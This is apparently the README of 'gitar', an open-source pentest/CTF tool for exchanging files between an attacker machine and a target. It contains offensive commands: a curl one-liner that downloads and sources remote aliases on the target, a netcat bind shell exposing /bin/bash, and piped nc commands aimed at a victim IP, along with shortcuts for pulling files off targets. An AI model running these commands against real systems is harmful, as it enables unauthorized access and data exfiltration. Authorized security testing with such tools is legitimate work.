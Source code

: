 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 with even simpler interactions for file exchange (Pentest/CTF) </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]`
 - **Download a directory** from my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

***~>*** To make **set up even simpler** shortcut/aliases are a great benefit. See [them 💥](https://github.com/ariary/bang/blob/main/README.md#gitar-pentest-easy-file-sharing)

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Launch `gitar` server 
 
#### (Attacker machine)

Launch `gitar` server: 
```shell
gitar
```

#### (Target machine)

Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. It is also provided by step 1. (in gitar output):
```shell
curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 [`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)

### Secure launch of `gitar` server

 
This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

* Enable HTTPS
* To use container image, you have to built it from ` Dockerfile`: `make build.gitar.image`

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.
#### (Attacker machine)

Launch `gitar` server: 
```shell
docker run --rm --cap-drop=all -v "${PWD}:/gitar/exchange" ariary/gitar
```
⚠️: to enable host volume in container we must (?) use root user within 


#### (Target machine)

Get shortcuts and source them. The one-liner corresponding is in the container stdout.

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**

[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

#### (Target machine)

Launch your classic listener:
```shell
nc -nvlp 4444 -e /bin/bash
```

#### (Attacker machine)

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Install

```shell
go install github.com/ariary/gitar@latest
```
## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Hardening container image (use a non-root user, but in same time we have to be able to read/write from host volumes)
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Handle case when curl isn't on target machine (wget version?) *Proposal: flag `method` (default curl), will determine the handler "alias" and adapt it in function (wget and Invoke-Webquest)
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )

	
	
